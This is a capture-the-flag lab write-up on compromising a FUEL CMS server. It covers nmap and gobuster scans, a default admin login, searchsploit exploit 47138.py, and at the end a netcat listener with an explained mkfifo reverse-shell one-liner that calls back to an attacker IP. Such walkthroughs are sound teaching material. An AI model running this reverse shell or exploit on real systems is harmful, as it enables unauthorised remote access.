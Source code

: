 # Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


# gobuster

## Command 
```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Result
```sh
/assets
```

## The site
Visiting the site i get a welcome page.
In the welcome page we are redirected to another directory 
	`http://$ip/fuel`

login details:  
user name `admin`  
password  `admin`

After login.  
Now we look for a vector point where we can enumelate and get something to work with.  


Navigating to `assets/upload`  
Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
Found a unix reverse code execution payload.  
Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
- `nc` calls the netcat application
- `-n` do not do any DNS or service lookups
- `-l` listen for an incoming connection rather than initiating a connection to a remote host
- `-v` use verbose output
- `-p` specify the source port nc should use
- `1337` the port that nc will listen on for incoming connections  

Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up
and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting
the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named
pipe  
